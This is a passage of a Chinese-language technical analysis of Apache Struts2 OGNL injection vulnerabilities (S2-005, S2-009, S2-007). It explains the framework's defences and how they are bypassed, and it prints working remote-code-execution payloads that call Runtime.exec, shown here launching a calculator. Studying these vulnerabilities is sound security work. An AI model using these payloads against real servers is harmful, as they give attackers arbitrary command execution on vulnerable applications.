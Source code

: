 ```java
        Iterator i$ = this.excludeProperties.iterator();

        while(i$.hasNext()) {
	    Pattern pattern = (Pattern)i$.next();
    	    Matcher matcher = pattern.matcher(paramName);
 	    if (matcher.matches()) { //  dojo\..*和^struts\..*能匹配到就返回true
	        return true;
	    }
        }
    }

    return false;
}
```
这些防御方式都是SecurityMemberAccess中新加的。想要绕过防御，根据上述调用栈，在将denyMethodExecution设为false的基础上，(1) 设置SecurityMemberAccess的allowStaticMethodAccess属性为true，(2)设置SecurityMemberAccess的excludeProperties属性为空。所以S2-005的payload如下。
```
(a)(('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(bla))&('\u0023_memberAccess.allowStaticMethodAccess\u003dtrue')(bla)(bla)&(a)(('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla))&(b)(('\u0023ret\u003d@java.lang.Runtime@getRuntime().exec(\'open\u0020/System/Applications/Calculator.app\')')(bla))
```

S2-005在修复时，加强了ParametersInterceptor的`acceptedParamNames`参数名的正则过滤。在加强了`ParametersInterceptor.setParameters()`处理时会先判断是否为acceptableName。用的就是如下的正则匹配来判断
```
acceptedParamNames="[a-zA-Z0-9\\.\\]\\[\\(\\)_'\\s]+";
```

### S2-009
S2-009是S2-005的绕过。S2-005的修复方式中加强了对参数名`('`，`\'`的过滤。上述S2-005的payload是当作参数名直接传入的。会被过滤掉。但是如果现在参数名使用name此类正常接受的参数，然后将OGNL作为name的参数值。接着利用`z[(name)('lalala')]`来调用name参数值进行OGNL计算。
```
&name=(#context["xwork.MethodAccessor.denyMethodExecution"]= new java.lang.Boolean(false), #_memberAccess["allowStaticMethodAccess"]= new java.lang.Boolean(true), @java.lang.Runtime@getRuntime().exec('open /System/Applications/Calculator.app'))(meh)&z[(name)('meh')]=true
```
此处需要注意的是Struts2的取参顺序按照ascii大小来排序。这个payload中有两个参数，`name`和`z[(name)('meh')]`。先要让name成功赋值，再通过`()()`获取name进行计算。那么第二个参数的首字符是要大于n的。


### S2-007
漏洞demo如下
```xml
<validators>
    <field name="age">
        <field-validator type="int">
	    <param name="min">1</param>
	    <param name="max">100</param>
	    <message></message>
        </field-validator>
    </field>
</validators>
```
此漏洞场景是配置了验证规则（xml形式），age的参数值需要为int型。通过文件名`<ActionClassName>-validation.xml`和要验证的Action关联。如果传入字符串型，就会被`ConversionErrorInterceptor`拦截，其拦截逻辑如下
```
public String intercept(ActionInvocation invocation) throws Exception {
    ActionContext invocationContext = invocation.getInvocationContext();
    Map<String, Object> conversionErrors = invocationContext.getConversionErrors();
    ValueStack stack = invocationContext.getValueStack();
    HashMap<Object, Object> fakie = null;
    Iterator i$ = conversionErrors.entrySet().iterator();
    while(i$.hasNext()) {
```